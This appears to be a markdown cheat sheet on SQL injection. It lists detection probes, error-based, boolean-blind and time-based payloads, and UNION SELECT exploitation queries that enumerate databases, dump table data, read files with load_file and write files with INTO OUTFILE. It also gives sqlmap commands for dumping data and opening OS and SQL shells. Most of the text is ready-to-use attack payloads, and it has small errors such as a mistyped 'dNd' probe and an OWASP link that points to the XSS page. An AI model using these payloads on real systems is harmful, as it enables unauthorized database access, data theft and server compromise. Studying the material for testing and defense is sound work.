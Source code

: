 # SQL injection

The SQL injection is one of the most common code injection technique that aims at getting access to the database. It's possible by improper handling of user input by the application. 

Related to: <br />
-Language: SQL <br />
-Platform: Any (requires interaction with a SQL database) <br />

Types of SQL injection: <br />
1) Error based <br />
2) Boolean based blind <br />
3) Time based blind <br />

Toolset: SQL Map<br />

Detection
-----------------------------------------------------------------------------

Detection of Error based SQL injection:
```
'
"
#
;
)
```
Encoding:
```
%27
%22
%23
%3B
```
Multiple encoding:
```
%%2727
%%2222
%%2323
%%3B3B
```
Detection of Boolean based blind SQL injection:<br />
TRUE statements:
```
aNd 1=1
aNd 21=21
anD 1=1;//
orDeR bY 1
```
FALSE statements:
```
dNd 0=1
anD 9=2
anD 57=276;//
ordEr bY 1000000000000
```
Characters to use instead of spaces:
```
+ 
/**/
%20
```
Comments to end the queries:
```
/*
//
#
%23
--
```

Detection of Time based blind:
```
aNd sleep
SLEEP(15)
BENCHMARK(100000000, rand())
WAIT FOR DELAY '00:00:15'
WAIT FOR TIME '00:00:15'
```


Exploitation
-----------------------------------------------------------------------------

General select syntax:
```
UniOn selEct [number of columns] [comment]
```

Example: Assume that there are two columns and the second column can be used to display data from db.
```
Seleting database version:
UniOn selEct 1,version() /*

Database:
UniOn selEct 1,database() /*

Database user:
UniOn selEct 1,user() /*

Database tables:
UniOn selEct 1,table_name frOm information_schema.tables where table_schema = '[database name]' /*

Table Columns:
UniOn selEct 1,column_name frOm information_schema.columns where table_name = '[table name]' /*

Selecting data from table:
UniOn selEct 1,[column name] frOm [table name] /*

Reading files:
UniOn selEct 1,load_file('file location') /*

Writing files:
UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*
```
Notes:<br />
When you executing queries you need to consider encodings.<br />

Example of encoding query to utf8:
```
UniOn select table_name COLLATE utf8_general_ci,table_schema COLLATE utf8_general_ci,'1' from information_schema.tables
```

SQL Map
-----------------------------------------------------------------------------

```
sqlmap -u [url] --- scan the provided url

sqlmap -u [url] —-dbs --- show the databases 

sqlmap -u “url” —-tables -D [database name] --- show all tables from [database name]

sqlmap -u “url” —-columns -T [table name] -D [database name] --- show all columns from [table name] in [database name]

sqlmap -u “url” -T [table name] -D [database name] —-dump --- show all data from [table name] in [database name]

sqlmap -u “url” —-os-shell --- OS shell 

sqlmap -u “url” —-sql-shell --- SQL shell
```

References:  
-----------------------------------------------------------------------------
[Wikipedia](https://en.wikipedia.org/wiki/SQL_injection)   
[Owasp](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))  
